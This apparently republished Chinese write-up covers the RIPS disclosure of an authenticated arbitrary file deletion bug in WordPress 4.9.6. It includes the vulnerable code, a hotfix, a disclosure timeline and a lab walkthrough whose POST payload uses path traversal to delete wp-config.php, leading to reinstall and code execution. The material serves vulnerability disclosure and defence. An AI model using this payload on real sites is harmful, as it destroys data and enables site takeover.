








 

# 0x01 Wordpress简介

WordPress是网络上最受欢迎的CMS。根据*w3tech*，大约30％的网站使用它[1](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/#fn:2)。这种广泛的采用使其成为网络罪犯的一个有趣目标。在这篇博文中，我们将介绍WordPress核心中经过身份验证的任意文件删除漏洞，该漏洞可能导致攻击者执行任意代码。7个月前，该漏洞已报告给WordPress安全团队，但仍未修补。自首次报告以来已经过去很长时间没有任何补丁或具体计划，这使我们决定将其公之于众。

 

**0x02 漏洞分析**

 **近日RIPS团队 ( 作者：Karim El Ouerghemmi ) 公开了一个Wordpress的[任意文件删除漏洞](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/)（需要登录），目前该漏洞仍然未修复（2018年06月27日），该漏洞影响 Wordpress 最新版 4.9.6.**

文件wp-includes/post.php中：

 

[](javascript:void(0);)

```
function wp_delete_attachment( $post_id, $force_delete = false ) {
    ...
    $meta = wp_get_attachment_metadata( $post_id );
    ...
    if ( ! empty($meta['thumb']) ) {
        // Don't delete the thumb if another attachment uses it.
        if (! $wpdb->get_row( $wpdb->prepare( "SELECT meta_id FROM $wpdb->postmeta WHERE meta_key = '_wp_attachment_metadata' AND meta_value LIKE %s AND post_id <> %d", '%' . $wpdb->esc_like( $meta['thumb'] ) . '%', $post_id)) ) {
            $thumbfile = str_replace(basename($file), $meta['thumb'], $file);
            /** This filter is documented in wp-includes/functions.php */
            $thumbfile = apply_filters( 'wp_delete_file', $thumbfile );
            @ unlink( path_join($uploadpath['basedir'], $thumbfile) );
        }
    }
    ...
}
```

[](javascript:void(0);)

`$meta['thumb']`来自与数据库，是图片的属性之一。代码未检查`$meta['thumb']`的内容，直接带入`unlink`函数，如果`$meta['thumb']`可控则可导致文件删除。

 

文件/wp-admin/post.php中：

[](javascript:void(0);)

```
...
switch($action) {
...
    case 'editattachment':
        check_admin_referer('update-post_' . $post_id);
        ...
        // Update the thumbnail filename
        $newmeta = wp_get_attachment_metadata( $post_id, true );
        $newmeta['thumb'] = $_POST['thumb'];

        wp_update_attachment_metadata( $post_id, $newmeta );
...
```

[](javascript:void(0);)

`$newmeta['thumb']`来自于$_POST['thumb']，未经过滤直接将其存入数据库，即上一步的`$meta['thumb']`可控。

 

## 临时修补程序

 通过将修复程序添加到`functions.php`当前活动的主题/子主题的文件中，可以将修复程序集成到现有的WordPress安装中。

[](javascript:void(0);)

```
add_filter( 'wp_update_attachment_metadata', 'rips_unlink_tempfix' );

function rips_unlink_tempfix( $data ) {
    if( isset($data['thumb']) ) {
        $data['thumb'] = basename($data['thumb']);
    }

    return $data;
}
```

[](javascript:void(0);)

所提供的Hotfix所做的就是挂钩`wp_update_attachement_metadata()`调用并确保为元值提供的数据`thumb`不包含任何可以进行路径遍历的部分。因此，不能删除任何安全相关文件。

提供的修复程序最终应视为临时修复，以防止攻击。我们无法监督WordPress插件的所有可能的向后兼容性问题，并建议您谨慎对WordPress文件进行任何修改。

披露时间：

## 时间线

| 日期           | 什么                                                         |
| -------------- | ------------------------------------------------------------ |
| 2017年11月20日 | 在Hackerone上向WordPress安全团队报告了漏洞。                 |
| 2017年11月22日 | 该漏洞由安全团队进行分类和验证。                             |
| 2017年12月12日 | 要求进步。                                                   |
| 2017年12月18日 | Wordpress正在开发一个补丁。要求发布日期。没有反应。          |
| 2018年1月9日   | 要求发布日期。没有反应。                                     |
| 2018年1月20日  | 由于问题的严重性和缺乏沟通而被要求对Hackerone进行调解。      |
| 2018年1月24日  | WordPress安全团队估计修复时间为6个月。                       |
| 2018年5月24日  | 被问及有关该问题的进展和/或计划，并提醒我们将尽快发布。没有反应。 |
| 2018年5月24日  | 将twitter DM发送给安全团队的成员，以确保他们不会忽略Hackerone上的消息。 |
| 2018年6月26日  | 该问题在报告后超过7个月未得到修补。                          |

详细分析可见：WARNING: WordPress File Delete to Code Execution - 

https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/

# 0x03 漏洞利用

条件：需要登陆后台，有点鸡助


 

 

后台地址：

http://10.10.10.103/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.103%2Fwp-admin%2F&reauth=1


进入后台后，点击Media（媒体），在点击Add New (添加)


进入到上传文件位置


上传好图片以后，点击右边Edit（编辑按钮）



跳转到

http://10.10.10.103/wp-admin/post.php?post=21&action=edit



此时打开F12,搜索post.php,找到_wpnonce的值为d8efee3064



 

 然后发送post数据包 (需要带入cookie值)

POST /wp-admin/post.php?post=21&action=edit HTTP/1.1

payload: action=editattachment&_wpnonce=d8efee3064&thumb=../../../../wp-config.php

 

发送成功会返回302状态

此时在点击删除按钮 [Delete Permanently](http://10.10.10.103/wp-admin/post.php?post=21&action=delete&_wpnonce=05621e9c6b)

http://10.10.10.103/wp-admin/post.php?post=21&action=delete&_wpnonce=05621e9c6b

 



 

抓包查看，也是返回302包



 

 再去网站根目录查看wp-config.php 

发现wp-config.php (数据库配置文件被成功删除了)



再次访问首页， 会发现提示你重新安装wordpress


## 影响 - 攻击者可以做些什么

 

利用此漏洞可以使攻击者能够删除WordPress安装的任何文件（+  PHP进程用户具有删除权限的服务器上的任何其他文件）。除了擦除整个WordPress安装的可能性，如果没有可用的当前备份可能会产生灾难性后果，攻击者可以利用任意文件删除的能力来规避一些安全措施并在Web服务器上执行任意代码。更确切地说，可以删除以下文件：

- .htaccess：通常，删除此文件不会产生任何安全后果。但是，在某些情况下，*.htaccess*文件包含与安全性相关的约束（例如，对某些文件夹的访问约束）。删除此文件将停用这些安全约束。
- index.php文件：通常将空的*index.php*文件放入目录中，以防止Web服务器无法执行此操作的目录列表。删除这些文件会向攻击者授予受此度量保护的目录中所有文件的列表。
- wp-config.php：删除WordPress安装的这个文件会在下次访问网站时触发WordPress安装过程。这是因为*wp-config.php*包含数据库凭据，并且没有它的存在，WordPress就像尚未安装一样。攻击者可以删除此文件，使用他为管理员帐户选择的凭据进行安装过程，最后在服务器上执行任意代码。

# 0x04 参考资料

https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/

https://xz.aliyun.com/t/2413



 